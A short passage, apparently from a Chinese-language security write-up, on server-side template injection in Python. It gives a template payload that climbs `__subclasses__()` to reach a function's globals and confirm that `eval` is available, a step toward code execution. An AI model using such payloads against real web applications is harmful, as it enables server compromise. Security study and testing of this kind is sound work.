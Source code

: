 ![image-20231130012111227](../.gitbook/assets/image-20231130012111227.png)

初始化对象，获取函数方法合集，并确定存在内建 `eval` 函数：

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__}}`
